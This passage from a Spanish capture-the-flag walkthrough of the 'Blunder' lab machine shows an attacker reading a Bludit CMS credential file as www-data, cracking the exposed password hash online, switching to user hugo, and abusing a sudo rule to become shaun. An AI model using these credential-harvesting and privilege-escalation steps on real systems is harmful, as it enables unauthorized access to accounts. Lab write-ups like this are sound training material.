 
```bash
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php 
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

Para ello usaremos nuestro web de confianza y logramos decifrar la contraseña la cual es `Password120`

* [https://crackstation.net/](https://crackstation.net/)


Con la nueva credencial migramos exitosamente como el usuario `hugo`, nos dirigimos a su directorio personal y visualizamos la primera flag `user.txt`.

```bash
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ su hugo
Password: 
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ whoami
hugo
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cd /home/hugo/
hugo@blunder:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
hugo@blunder:~$ cat user.txt 
0ad6d2d9c835f7f10ba8518d29dedc4b
```

## Escalada de Privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Enumerando los privilegios a nivel de `sudoers`, vemos que el usario `hugo`, puede ejecutar una bash como cualquier usuario a exepción de root. Aprovechando esto podemos migrar al usuario `shaun`.

```bash
hugo@blunder:~$ sudo -u shaun bash
shaun@blunder:/home/hugo$ whoami
shaun
shaun@blunder:/home/hugo$ id
uid=1000(shaun) gid=1000(shaun) groups=1000(shaun),4(adm),24(cdrom),30(dip),46(plugdev),119(lpadmin),130(lxd),131(sambashare)
```
